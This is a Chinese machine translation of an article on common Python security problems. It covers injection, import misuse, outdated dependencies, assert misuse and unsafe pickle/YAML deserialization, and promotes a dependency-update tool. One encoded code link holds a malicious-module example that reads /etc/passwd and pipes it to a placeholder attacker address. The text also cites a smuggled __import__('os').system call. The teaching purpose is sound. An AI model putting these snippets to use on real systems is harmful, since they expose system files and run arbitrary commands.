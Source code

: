 # 常见的 Python 安全问题

> 原文：<https://itnext.io/common-python-security-problems-ffedbae7b11c?source=collection_archive---------1----------------------->

![](img/6724f01cf4cce0670db05ec5119bc1ac.png)

Python 正日益成为开发人员中最受欢迎的编程语言之一。相对较少的 [Python 安全问题](https://www.whitesourcesoftware.com/most-secure-programming-languages/)和它的用户友好性使它比其他语言更有优势。出于这个原因，它为一些最大的网站提供支持，包括 YouTube、Dropbox、Reddit、Quora、Spotify 和 Instagram。

根据 StackOverflow 的 [2019 年调查，41.7%的开发者将 Python 列为他们最喜欢的开发技术。该调查还强调了 Python 在开发者偏好方面的排名上升，超过了 C#、PHP，现在又超过了 Java。](https://insights.stackoverflow.com/survey/2019/?ref=hackernoon.com#most-popular-technologies)

然而，与任何其他技术一样，开发人员应该专注于提高应用程序的安全级别。这篇文章汇集了一些最常见的 Python 安全问题，并指导开发人员如何修复它们。

# 输入注入

注入攻击可以说是任何开发环境中最常见的漏洞。在 Python 中，这些攻击可以采取不同的形式，包括:

*   **模块注入** —当恶意的 Python 模块或包文件被导入到目录中时，就会发生这种情况。
*   **SQL 注入** —它涉及引入在 SQL 语句上下文中执行的恶意输入。
*   **命令注入** —在调用进程、子进程或 os.system 时发生。特制变量可能包含恶意值，在本地命令中调用时会引入漏洞。

下面是一个示例代码片段，其中导入了一个简单的恶意模块，在执行时可能会导致不良后果。

![](img/2386c2ad7cb3d6cc127b696831de50c4.png)

[Raw](https://carbon.now.sh/embed?bg=rgba(0%2C0%2C0%2C1)&t=blackboard&wt=none&l=python&ds=true&dsyoff=20px&dsblur=68px&wc=true&wa=true&pv=56px&ph=56px&ln=false&fl=1&fm=Hack&fs=14px&lh=133%25&si=false&es=1x&wm=false&code=%2524%2520cat%2520malicious.py%250A%2520%2520%2520import%2520os%250A%2520%2520%2520import%2520sys%250A%2520%2520%2520os.system(%27cat%2520%252Fetc%252Fpasswd%2520%257C%2520attackers-email%2540example.com%27)%250A%2520%2520%2520del%2520sys.modules%255B%27malicious%27%255D%2520%2520%2523%2520pretend%2520it%27s%2520not%2520imported%250A%2520%2520%2520%2524%2520python%250A%2520%2520%2520%253E%253E%253E%2520import%2520malicious%250A%2520%2520%2520%253E%253E%253E%2520dir(malicious)%250A%2520%2520%2520Traceback%2520(most%2520recent%2520call%2520last)%253A%250A%2520%2520%2520NameError%253A%2520name%2520%27malicious%27%2520is%2520not%2520defined%250A)

有几种方法可以减轻注入攻击。其中包括:

*   消毒所有输入
*   修正外壳中 *shlex* 模块的输入转义
*   维护对搜索路径中的包文件和目录的安全访问权限。这确保了非特权用户对文件没有写访问权。

# 误用导入功能

Python 在导入方面非常灵活。然而，这种灵活性是以安全性为代价的。

当在 Python 中使用[相对导入时，在系统路径中发现的恶意模块可能会被偷偷带入您的代码库。这很危险，因为导入语句可以在恶意模块中执行代码，从而造成安全漏洞。](https://realpython.com/absolute-vs-relative-python-imports/)

如果像*_ _ import _ _(“OS”)这样简单的语句。system("uname -a")* 包含此类恶意值，则提供的命令可用于危害应用程序中的数据或进程。

为了避免滥用导入功能，只有当传递给脚本的 stdin 的数据可信时，才应该使用 input 函数。否则，将所有数据视为原始的、不可信的输入。

好在 Python 3 不支持隐式相对导入。相反，它将导入函数视为原始输入，从而完全修复了该漏洞。因此，Python 2 用户应该考虑升级到 Python 3。然而，这并不意味着 Python 3 用户应该对他们的导入语句漠不关心。

# 使用过时的依赖关系

很大一部分开发人员通过使用未打补丁的依赖关系将漏洞引入到他们的 Python 应用程序中。过时的 Python 依赖通常会打开漏洞，其中大部分会在后续版本中修复。因此，保持依赖关系的更新是至关重要的。否则，您的代码将仍然不安全。

例如，在这个用于解释性数学视频的[基于 Python 的动画引擎](https://github.com/Dickson-Mwendia/Animation-engine-for-explanatory-math-videos-in-Python)中，未打补丁的 Pillow 依赖项中存在大量安全漏洞，如下所示:

![](img/7ff3bc3a96d05bd5253fe8afeaca2bc3.png)

依赖性中发现的三个 Python 漏洞是:

*   [CVE-2019–19911](https://github.com/advisories/GHSA-5gm3-px64-rw72)—与不受控制的资源消耗相关的 DoS 漏洞。它影响 6.2.2 以下的所有枕头版本。
*   [CVE-2020–5313](https://github.com/advisories/GHSA-hj69-c76v-86wr)—枕形缓冲区溢出，导致越界读取。此漏洞也会影响 6.2.2 以下的所有版本。
*   [CVE-2019–16865](https://github.com/advisories/GHSA-j7mj-748x-7p78)—在处理特制图像文件时，枕头中的拒绝服务攻击。它影响 6.2.0 以下的所有版本。

![](img/45e2ee05de99365f6c7f8c46b10a8646.png)

这三个漏洞可以通过将 pillow 依赖项更新为修补版本来修复。在这种情况下，6.2.2 以上的任何版本都会修复这三个缺陷。

保持你的依赖关系最新的最好方法是使用[white source renew](https://renovate.whitesourcesoftware.com/)，这是一个免费的依赖关系更新工具，可以在 [GitHub 市场](https://github.com/marketplace/renovate)上找到。当您将 renewal 集成到一个项目或工作流中时，它会扫描所有的存储库。

这里有一个快照显示了这个 GitHub [Python 项目](https://github.com/Dickson-Mwendia/Animation-engine-for-explanatory-math-videos-in-Python)的调试级别日志。

![](img/dc18861c1db2552bed438c34d447f555.png)

扫描完代码库后，Renovate 为每个过时的依赖项发起一个 pull 请求，如下所示:

![](img/cf3bc55974e2d4fc9041072b6f851d8f.png)

一旦合并了 renew 调用的 pull 请求，易受攻击的 Pillow 依赖项就会更新到版本 7，从而使应用程序或存储库变得安全。

请注意依赖关系警报部分的绿色标记；枕头依赖中的哪些安全问题现已修复。

![](img/6f7efc67589cf3ffe7e96eadd6e235f3.png)

# 断言语句

使用 *assert 语句*来控制你的应用逻辑或者程序执行是错误的。它可能导致检索错误的结果，引入安全风险，甚至更糟，程序失败。

考虑下面的 Python 代码片段。

![](img/9a5277adbfe6d3dfefe2edd6a8b670bf.png)

[Raw](https://carbon.now.sh/embed?bg=rgba(0%2C0%2C0%2C1)&t=blackboard&wt=none&l=python&ds=true&dsyoff=20px&dsblur=68px&wc=true&wa=true&pv=56px&ph=56px&ln=false&fl=1&fm=Hack&fs=14px&lh=133%25&si=false&es=1x&wm=false&code=def%2520get_clients(user)%253A%250A%2520%2520%2520%2520%2522%2522%2522Get%2520list%2520of%2520clients.%2522%2522%2522%250A%2520%2520%2520%2520assert%2520is_superuser(user)%252C%2520%2522User%2520is%2520not%2520a%2520member%2520of%2520superuser%2520group%2522%250A%2520%2520%2520%2520return%2520db.lookup(%27clients%27)%250A)

当您在[优化模式](https://docs.python.org/3/using/cmdline.html#envvar-PYTHONOPTIMIZE)下运行这个 Python 程序时， *assertstatement* 被忽略。因此，任何用户，包括那些不是超级用户组成员的用户，都可以成功地获得客户端列表。

这意味着代码中的任何保护都被删除了，使得应用程序容易受到攻击。

我们可以重写一个更安全的程序，如下所示，而不是依赖 assert 语句来防止代码被非法访问:

![](img/fab0f4352a16e0768167aa4ef9a9bc91.png)

[Raw](https://carbon.now.sh/embed?bg=rgba(0%2C0%2C0%2C1)&t=blackboard&wt=none&l=python&ds=true&dsyoff=20px&dsblur=68px&wc=true&wa=true&pv=56px&ph=56px&ln=false&fl=1&fm=Hack&fs=14px&lh=133%25&si=false&es=1x&wm=false&code=def%2520get_clients(user)%253A%250A%2520%2520%2520%2520%2522%2522%2522Get%2520list%2520of%2520clients.%2522%2522%2522%250A%2520%2520%2520%2520if%2520not%2520is_superuser(user)%253A%250A%2520%2520%2520%2520%2520%2520%2520%2520raise%2520PermissionError(%2522User%2520is%2520not%2520a%2520member%2520of%2520superuser%2520group%2522)%250A%2520%2520%2520%2520return%2520db.lookup(%27clients)

[断言机制](https://docs.python.org/3/reference/simple_stmts.html#the-assert-statement)应该只用于与其他开发者的通信。例如，当执行单元或集成测试时。

# 不安全的反序列化

有许多技术可以读取外部文件并将其内容加载到(反序列化)Python 对象中。 [Pickle](https://docs.python.org/3/library/pickle.html) 就是这样一种强大的序列化技术，它本身就有风险，尤其是当攻击者篡改序列化数据时。

来自外部来源的数据从来都不安全。根据经验，永远不要将来自不可信来源的数据分解或解析到 Python 对象中。这是因为攻击者可以在 pickling 期间使用子进程模块执行任意命令。

此外，来自用户输入的 YAML 文件会使您的应用程序容易受到攻击。为了避免这种情况，使用[py YAML](http://pyyaml.org/wiki/PyYAMLDocumentation)safe _ load function(YAML . safe _ load)来处理 YAML 序列化。

下面是一个简单的定制代码，可以用来查找代码库中所有不安全的 yaml.load 函数。

![](img/5de2a575414ea124d2e03bb1daebc12f.png)

[生](https://carbon.now.sh/embed?bg=rgba(0%2C0%2C0%2C1)&t=blackboard&wt=none&l=python&ds=true&dsyoff=20px&dsblur=68px&wc=true&wa=true&pv=56px&ph=56px&ln=false&fl=1&fm=Hack&fs=14px&lh=133%25&si=false&es=1x&wm=false&code=import%2520python%250Afrom%2520CallNode%2520call%250Awhere%2520call%2520%253D%2520Value%253A%253Anamed(%2522yaml.load%2522).getACall()%250Aselect%2520call.getNode()%252C%2520%2522yaml.load%2520function%2520is%2520unsafe%2520when%2520loading%2520data%2520from%2520untrusted%2520sources.%2520Use%2520yaml.safe_load%2520instead.%2522)

**总结**

软件安全性应该始终处于每个 Python 开发项目的最前沿。虽然这篇文章旨在提高人们对安全漏洞的认识，但它并没有涵盖 Python 生态系统中的所有安全漏洞。

然而，它涵盖了在 Python 应用程序中引入安全漏洞的最普遍的问题。因此，遵循上面的实践，为构建安全的 Python 应用程序打下坚实的基础。